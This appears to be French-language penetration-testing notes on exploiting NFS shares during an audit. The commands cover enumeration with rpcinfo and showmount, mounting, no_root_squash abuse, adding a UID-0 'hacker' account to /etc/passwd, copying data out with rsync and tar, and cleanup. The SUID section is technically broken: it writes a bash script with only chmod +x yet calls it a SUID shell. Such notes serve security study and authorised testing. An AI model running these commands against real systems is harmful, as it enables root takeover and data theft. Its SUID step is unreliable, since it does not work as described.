

Cette documentation détaille l'exploitation des configurations **NFS** (Network File System) dans le cadre d'un audit de sécurité, en complément des concepts abordés dans **Linux Enumeration**, **Privilege Escalation - Linux** et **Network Services Enumeration**.

> [!danger] Risque système
> La modification de **/etc/passwd** via NFS peut corrompre le système cible si mal effectuée.

> [!warning] Prérequis
> Nécessite un accès réseau au port 2049 (**NFS**) ou 111 (**RPC**).

> [!tip] Astuce de montage
> Toujours vérifier les permissions UID/GID côté client vs serveur lors du montage.

## Énumération des services

### Énumération des ports RPC
Le service **rpcbind** (port 111) est essentiel pour mapper les services RPC vers les ports dynamiques utilisés par **NFS**.

```bash
rpcinfo -p target.com
```

### Énumération des partages
Utiliser **showmount** pour lister les exports disponibles sur la cible.

```bash
showmount -e target.com
```

Exemple de sortie :
```text
Export list for target.com:
/home/user  (everyone)
/backup     (192.168.1.0/24)
/srv/data   (no_subtree_check, insecure)
```

## Méthodologie de montage

Pour interagir avec les fichiers, le partage doit être monté localement sur la machine de l'attaquant.

```bash
# Création du point de montage
mkdir /mnt/nfs_target

# Montage du partage NFS
mount -t nfs target.com:/home/user /mnt/nfs_target -o nolock
```

## Vecteurs d'exploitation

### no_root_squash
> [!danger] Danger
> L'utilisation de **no_root_squash** permet une élévation de privilèges triviale.

Si **no_root_squash** est actif, le client conserve ses privilèges root sur le serveur.

```bash
# Vérification sur la cible
cat /etc/exports

# Exploitation sur le client
touch /mnt/nfs_target/root_owned_file
ls -l /mnt/nfs_target/
```

### Exécution de code via SUID
Si un binaire **SUID** est présent sur le partage, il est possible de le modifier pour obtenir un shell.

```bash
echo -e '#!/bin/bash\n/bin/bash -p' > /mnt/nfs_target/suid_shell
chmod +x /mnt/nfs_target/suid_shell
```

### Accès en écriture globale
Un partage monté en **rw** permet la modification directe de fichiers sensibles.

```bash
# Ajout d'un utilisateur root via modification de /etc/passwd
echo 'hacker:x:0:0::/root:/bin/bash' >> /mnt/nfs_target/etc/passwd
```

### Fichiers de sauvegarde exposés
Recherche de fichiers sensibles pouvant contenir des identifiants ou des configurations.

```bash
find /mnt/nfs_target -name "*.bak" -o -name "*.sql" -o -name "*.tar.gz"
```

### Techniques d'exfiltration de données
Une fois le partage monté, l'exfiltration peut être réalisée via **rsync** ou **tar** pour préserver les permissions et les attributs des fichiers.

```bash
# Exfiltration récursive avec conservation des attributs
rsync -av /mnt/nfs_target/ /tmp/exfiltrated_data/

# Création d'une archive compressée pour exfiltration rapide
tar -cvzf data_exfil.tar.gz /mnt/nfs_target/
```

## Résumé des paramètres

| Paramètre | Risque |
| :--- | :--- |
| **no_root_squash** | Élévation de privilèges (UID 0) |
| **insecure** | Autorise les ports non privilégiés (>1024) |
| **rw** | Modification de fichiers système |
| **noexec** | Protection contre l'exécution de binaires |
| **nosuid** | Protection contre les binaires SUID |

## Nettoyage post-exploitation
Après l'audit, il est impératif de supprimer les fichiers créés et de démonter le partage pour éviter de laisser des traces ou de corrompre le système cible.

```bash
# Suppression des fichiers créés pour l'exploitation
rm /mnt/nfs_target/suid_shell
rm /mnt/nfs_target/root_owned_file

# Démonter le partage
umount /mnt/nfs_target
```
```